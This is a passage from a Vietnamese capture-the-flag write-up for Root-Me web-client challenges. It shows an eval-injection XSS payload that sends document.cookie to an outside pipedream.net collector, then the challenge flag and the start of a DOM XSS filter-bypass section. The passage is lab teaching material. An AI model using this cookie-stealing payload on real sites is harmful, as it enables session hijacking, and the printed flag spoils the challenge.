 - Gửi qua tab `contact`:

```
http://challenge01.root-me.org/web-client/ch34/?calculation=1%2B1`%24{document.location%3D%22https%3A%2F%2F1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?c=%22%2Bdocument.cookie}`
```

- Result:

![1](1/../img/20/Screenshot%20from%202023-01-29%2014-53-59.png)

```
Flag:   rootme{Eval_Is_DangER0us}
```


# 21. XSS DOM Based - Filters Bypass

- Mở source đọc được file js này:

![1](1/../img/21/Screenshot%20from%202023-01-29%2021-16-54.png)
